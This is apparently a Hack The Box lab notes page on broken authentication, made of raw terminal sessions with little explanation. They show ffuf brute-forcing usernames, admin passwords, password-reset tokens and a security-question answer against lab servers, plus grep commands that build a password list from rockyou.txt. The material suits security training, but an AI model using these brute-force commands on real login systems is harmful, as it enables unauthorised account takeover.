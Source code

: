 # HTB_Broken_Authentication

[✗]─[user@parrot]─[~/Downloads]
└──╼ $ffuf -w xato-net-10-million-usernames.txt -u http://94.237.56.64:35816/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
─[✗]─[user@parrot]─[/usr/share/wordlists]
└──╼ $sudo su
┌─[root@parrot]─[/usr/share/wordlists]
└──╼ #grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
grep: rockyou.txt: binary file matches
┌─[root@parrot]─[/usr/share/wordlists]
└──╼ #grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt^C
┌─[✗]─[root@parrot]─[/usr/share/wordlists]
└──╼ #grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt^C
┌─[✗]─[root@parrot]─[/usr/share/wordlists]
└──╼ #wc -l custom_wordlist.txt
151647 custom_wordlist.txt
┌─[root@parrot]─[/usr/share/wordlists]
└──╼ #ffuf -w ./custom_wordlist.txt -u http://94.237.121.100:47395/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
──╼ $ffuf -w ./tokens.txt -u http://94.237.60.219:39636/reset_password.php?token=FUZZ -fr "The provided token is invalid"


r@parrot]─[~/Downloads]
└──╼ $ffuf -w ./uk_cities.txt -u http://94.237.54.192:45449/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=1r817v9eur8tihddinbobkfat1" -d "security_response=FUZZ" -fr "Incorrect response."

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.54.192:45449/security_question.php
 :: Wordlist         : FUZZ: /home/user/Downloads/uk_cities.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: PHPSESSID=1r817v9eur8tihddinbobkfat1
 :: Data             : security_response=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Incorrect response.
________________________________________________

Manchester              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 293ms]
Manchester              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 344ms]
Manchester              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 265ms]
Manchester              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 262ms]
[WARN] Caught keyboard interrupt (Ctrl-C)

